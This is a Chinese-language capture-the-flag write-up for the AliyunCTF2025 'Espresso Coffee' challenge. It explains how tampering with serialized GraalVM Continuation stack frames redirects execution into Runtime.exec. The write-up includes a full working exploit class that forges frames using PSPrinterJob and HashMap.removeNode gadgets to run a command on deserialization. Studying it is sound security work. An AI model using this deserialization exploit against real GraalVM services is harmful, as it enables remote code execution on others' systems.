










# AliyunCTF2025 Espresso Coffee 解析-先知社区

> **来源**: https://xz.aliyun.com/news/17019  
> **文章ID**: 17019

---

# Espresso Coffee

## 前言

jdk21 graalvm反序列化

org.graalvm.continuations.Continuation

Continuation使用例子

```
import org.graalvm.continuations.Continuation;
public class ContinuationExample {
    public static void main(String[] args) {

        Continuation continuation = Continuation.create(new MyEntryPoint());
        continuation.resume();
        continuation.resume();

    }
}
```

MyEntryPoint

```
import org.graalvm.continuations.ContinuationEntryPoint;
import org.graalvm.continuations.SuspendCapability;
public class MyEntryPoint implements ContinuationEntryPoint {
    public void start(SuspendCapability suspendCapability) throws Throwable {

        for (int i = 0; i < 10; i++) {
            System.out.println("[INFO] " + i);
            suspendCapability.suspend();
        }
    }
}
```

Continuation执行resume，会进入EntryPoint#start，如果遇到suspend，那么就结束，下一次resume会从上一次suspend的位置开始继续执行。

Continuation一定有一个属性，存储着这些方法执行记录，才能够知道resume该从什么位置开始。

Continuation可以被序列化和反序列化， 那么，这些方法的执行记录，同样可以被序列化和反序列化。

如何修改Continuation的方法执行记录， 让他下一次resume时去到恶意方法，执行我们想要的命令，是本题的关键。



## 调试环境

调试环境用这个：https://github.com/oracle/graal/blob/master/espresso/docs/serialization.md

​

简化版：

```
package org.example.test;

import java.io.*;
import java.nio.file.*;
import org.graalvm.continuations.*;
import static java.nio.file.StandardOpenOption.*;

public class PersistentApp implements ContinuationEntryPoint, Serializable {
    private static final String DEFAULT_PATH = "state.serial.bin";
    int counter = 0;

    @Override
    public void start(SuspendCapability suspendCapability) {
        while (true) {
            counter++;
            System.out.println("The counter value is now " + counter);
            doWork(suspendCapability);
        }
    }

    private static void doWork(SuspendCapability suspendCapability) {
        suspendCapability.suspend();
    }

    public static void main(String[] args) throws Exception {
        checkSupported();

        Path storagePath = Paths.get(DEFAULT_PATH);
        MyJavaSerializer myJavaSerializer = new MyJavaSerializer();

        Continuation continuation;
        if (!Files.exists(storagePath)) {
            continuation = Continuation.create(new PersistentApp());
        } else {
            continuation = myJavaSerializer.readObject(storagePath);
        }
        
        continuation.resume();
        myJavaSerializer.writeObject(continuation, storagePath);
    }

    private static void checkSupported() {
        try {
            if (!Continuation.isSupported()) {
                System.err.println("Ensure you are running on an Espresso VM with the flags '--experimental-options --java.Continuum=true'.");
                System.exit(1);
            }
        } catch (NoClassDefFoundError e) {
            System.err.println("Please make sure you are using a VM that supports the Continuation API");
            System.exit(1);
        }
    }

}
class MyJavaSerializer{
    public Continuation readObject(Path storagePath) throws Exception {
        try (var in = new ObjectInputStream(Files.newInputStream(storagePath, READ))) {
            return (Continuation) in.readObject();
        }
    }

    public void writeObject(Continuation continuation, Path storagePath) throws Exception {
        try (var out = new ObjectOutputStream(Files.newOutputStream(storagePath, CREATE, TRUNCATE_EXISTING, WRITE))) {
            out.writeObject(continuation);
        }
    }
}
```

​

第一次运行resume，会产生一个序列化文件，第二次运行，读取该文件，反序列化，断点打在resume之前，查看continuation的内容。



当时看了一下午，才大概有点头绪。Continuation有一个FrameRecord属性，叫做stackFrameHead（栈帧），这个东西记录了哪个方法执行到了哪个位置，反序列化后，这个东西的内容决定了下一次resume该怎么走。（注意，第一次执行resume，stackFrameHead为null，此时他的内容是在navtive的内存里（猜测），只有第二次运行反序列化后才看得见。）

上图中，程序的入口是run方法，执行到subspend后，就把当前的帧全部记录，每个帧都会保存当前执行到什么方法（method），方法执行到什么位置（bci），当前方法内的对象（pointers）

pointers[0] 表示当前对象this，pointers[1] 表示第一个方法参数，方法参数表示完毕后，剩下的就是局部变量。如果是静态方法，那么pointers[0] 就是第一个方法参数。

那现在思路就明确了，把其中一个栈帧的method设成Runtime的exec或者别的恶意方法，就行了，接下来看看具体操作和细节。

## 字节码指令解析

在此之前，需要知道bci是什么，以及java字节码是如何执行的。

参考：[字节码指令参照表](https://github.com/xfhy/Android-Notes/blob/master/Blogs/Java/JVM/4.Java%E5%AD%97%E8%8A%82%E7%A0%81(class%E6%96%87%E4%BB%B6)%E8%A7%A3%E8%AF%BB.md)，[jvm执行引擎](https://github.com/xfhy/Android-Notes/blob/master/Blogs/Java/JVM/7.%E8%99%9A%E6%8B%9F%E6%9C%BA%E5%AD%97%E8%8A%82%E7%A0%81%E6%89%A7%E8%A1%8C%E5%BC%95%E6%93%8E.md#head6)

bci：byteCode index，使用javap命令可以查看：

javap -c -p java.lang.Runtime

产生的结果有很多，以exec为例



最左边的数字就是bci。

方法开始执行之前，先创建一个局部变量表，把实例填入0，方法参数往后填。局部变量表，就是题目continuation栈帧的pointers属性。

aload\_0 局部变量表0处的变量入栈

aload\_1 局部变量表1处的变量入栈

aconst\_null null入栈

aconst\_null null 入栈

invokevirtual 这个方法有3个参数，弹栈4次，得到 null null string this，调用this.exec(string,null,null)，返回值入栈

areturn 弹栈，元素做返回值，返回给上一层的调用者。

回到题目，如果我们想通过跳转字节码的方式执行exec，就只能跳转到上面的指令往下执行。

测试发现：

1. 跳转字节码从bci指向的下一条指令开始执行
2. bci指向的值，只能是invoke类型的指令，换成别的指令一律报错：Target bci is not a valid bytecode.>

那上面的exec是不能直接跳了，如果bci设置为4，那么下一次执行的就是areturn，直接返回了。

再看一个例子，windows下。linux和mac对应的类是UnixPrinterJob。

javap -p -c sun.print.PSPrinterJob$PrinterSpooler





假如bci设置为83，那么下一次执行的指令就是86。

astroe\_2，把栈顶元素设置到pointers[2]，由于是刚开始执行，栈是空的，所以pointers[2]就变成了null。

invokestatic 调用getRuntime，返回runtime对象，入栈。

aload\_2，pointers[2] 入栈

invokevirtual，弹栈2次，runtime.exec(null)

由于没有用到this，所以pointers[0]可以传null以及别的东西。



## 控制返回值

感觉就差一点了，现在83这个位置已经是绝佳位置了，再往上就要碰到this了，跳不得。

我想，如果再加一个栈帧会发生什么？比如把当前的栈帧复制一份，再接到后面。



run执行了2次。

看第一次run时候的idea调试光标，停留在printExecCmd的位置



这下就搞清楚了，第一帧bci为83，对应的方法就是printExecCmd，此时他后面还有有一帧，那么jvm就认为，是通过进入printExecCmd方法所产生的帧，所以光标停留在这个位置。

那么如果能控制后面帧的返回值，是不是就相当于控制了printExecCmd的返回值？

经过艰难搜索字节码发现一个完美的gadget，位于HashMap的removeNode中：



第二帧的bci设置为283，从286开始执行

aload 10 pointers[10] 入栈

areturn 栈顶元素返回。

所以只需要第二帧的pointers[10]设置为String[]{"calc"}，就能够执行命令了。



## 动态代理

还有最后一个问题。

经过调试发现，stackFreamHead的第一帧，必须是ContinuationImpl的run方法，第二帧，必须是ContinuationEntryPoint的start方法，这两帧不能改成自己的，否则会报错：Wrong method on the recorded frames。

第二帧，ContinuationEntryPoint是个接口，题目中没有实现类，我们先前的测试都是基于自己的写的实现类，远程环境可没有。

怎么办呢，用动态代理即可。

自定义一个InvocationHandler

```
public class MyInvocationHandler implements InvocationHandler, Serializable {
    @Override
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
        ((SuspendCapability)args[0]).suspend();
        return null;
    }
}
```

Continuation这样创建

```
Object o = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{ContinuationEntryPoint.class}, new MyInvocationHandler());
continuation = Continuation.create((ContinuationEntryPoint) o);
```

这样产生的帧第二帧start就是我们动态代理的start方法。

但是远程环境没有我们的InvocationHandler，反序列化会失败，所以在产生完帧之后，得手动修改Handler为jdk存在的handler。handler不参与方法调用，用啥都行。

## 最终exp

第一次运行，产生序列化文件，第二次运行，反序列化。

在原来的PersistApp的基础上只修改main方法，其他不变

```
public static void main(String[] args) throws Exception {
    checkSupported();

    Path storagePath = Paths.get(DEFAULT_PATH);
    MyJavaSerializer myJavaSerializer = new MyJavaSerializer();

    Continuation continuation;
    if (!Files.exists(storagePath)) {
        Object o = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{ContinuationEntryPoint.class}, new MyInvocationHandler());
        continuation = Continuation.create((ContinuationEntryPoint) o);
    } else {
        continuation = myJavaSerializer.readObject(storagePath);
    }

    continuation.resume();
    ContinuationModify.modify(continuation);
    myJavaSerializer.writeObject(continuation, storagePath);
}
```

ContinuationModify

```
public class ContinuationModify {

    public static Object makeFrame(Object[] pointers,long[] primitives,Method method,int bci) throws Exception{
        Class aClass = Class.forName("org.graalvm.continuations.ContinuationImpl$FrameRecord");
        Object newNext = Util17.createWithConstructor(aClass, aClass,
                new Class[]{Object[].class,long[].class, Method.class, int.class},
                new Object[]{pointers,primitives,method,bci});
        return newNext;
    }

    public static Object makeInvocationHandler() throws Exception{
        Class AnnotationInvocationHandler_class = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Object invocationHandler = Util17.createWithoutConstructor(AnnotationInvocationHandler_class);
        Util17.setFieldValue(invocationHandler, "type",Override.class);
        Util17.setFieldValue(invocationHandler, "memberValues",new HashMap<>());
        return invocationHandler;
    }

    // 参考ContinuationImpl的writeObject方法，手动令stackFrameHead产生内容
    public static Object lockAndEnsureMaterialized(Continuation continuation) throws Exception{
        Class continuationImpl_class = Class.forName("org.graalvm.continuations.ContinuationImpl");
        Method lock = Util17.getMethod(continuationImpl_class, "lock", new Class[]{});
        Method ensureMaterialized = Util17.getMethod(continuationImpl_class, "ensureMaterialized", new Class[]{});
        Object lockState = lock.invoke(continuation);
        ensureMaterialized.invoke(continuation);
        return lockState;
    }

    public static void unlock(Continuation continuation,Object lockState) throws Exception{
        Class continuationImpl_class = Class.forName("org.graalvm.continuations.ContinuationImpl");
        Class state_class = Class.forName("org.graalvm.continuations.ContinuationImpl$State");
        Method unlock = Util17.getMethod(continuationImpl_class, "unlock", new Class[]{state_class});
        unlock.invoke(continuation,lockState);
    }

    public static Object makeNext1() throws Exception{
        Class PrinterSpooler_class = Class.forName("sun.print.PSPrinterJob$PrinterSpooler");
        Method method = Util17.getMethod(PrinterSpooler_class,"run",new Class[]{});
        int len = 15;
        Object[] pointers = new Object[len];
        long[] primitives = new long[len];
        int bci = 83;
        primitives[0] = 89 ;
        Object newFrame = makeFrame(pointers, primitives, (Method) method, (int)bci);
        return newFrame;
    }

    public static Object makeNext2() throws Exception{
        int len2 = 15;
        Object[] pointers2 = new Object[len2];
        long[] primitives2 = new long[len2];
        int bci2 = 283;
        primitives2[0] = bci2 +1;
        Method method2 = Util17.getMethod(Class.forName("java.util.HashMap"),"removeNode",new Class[]{
                int.class, Object.class, Object.class, boolean.class, boolean.class
        });
        pointers2[1] = null;
        pointers2[9] = new String[]{"calc"};
        pointers2[10] = new String[]{"calc"};
        pointers2[11] = new String[]{"calc"};

        Object newFrame2 = makeFrame(pointers2, primitives2, method2,bci2);
        return newFrame2;
    }

    public static void modify(Continuation continuation) throws Exception{
        Object invocationHandler = makeInvocationHandler();
        Object entryPoint = Util17.getFieldValue(continuation, "entryPoint");
        Util17.setFieldValue(entryPoint, "h",invocationHandler);

        Object lock_state = lockAndEnsureMaterialized(continuation);

        Object stackFrameHead = Util17.getFieldValue(continuation, "stackFrameHead");
        Object next1 = Util17.getFieldValue(stackFrameHead, "next");
        Object next2 = Util17.getFieldValue(next1, "next");
        Object next3 = Util17.getFieldValue(next2, "next");

        Object newFrame = makeNext1();
        Object newFrame2 = makeNext2();

        Util17.setFieldValue(next1, "next",newFrame);
        Util17.setFieldValue(newFrame, "next",newFrame2);
        Util17.setFieldValue(newFrame2, "next",next3);

        unlock(continuation,lock_state);

    }
}
```
